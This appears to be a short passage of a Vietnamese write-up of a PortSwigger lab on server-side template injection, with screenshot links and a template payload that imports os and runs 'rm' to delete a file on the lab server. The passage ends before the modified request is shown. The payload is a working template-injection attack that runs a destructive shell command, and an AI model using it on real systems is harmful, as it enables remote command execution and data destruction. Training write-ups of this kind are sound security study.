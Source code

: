 ![img](https://github.com/DucThinh47/PortSwigger/blob/main/Server-side_template_injection/images/image13.png?raw=true)

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Server-side_template_injection/images/image14.png?raw=true)

=> Website có thể bị tấn công `SSTI`. 

Payload để xóa thư mục `morale.txt`:

    {% import os %}
    {{os.system('rm /home/carlos/morale.txt')

Request sau khi thay đổi:
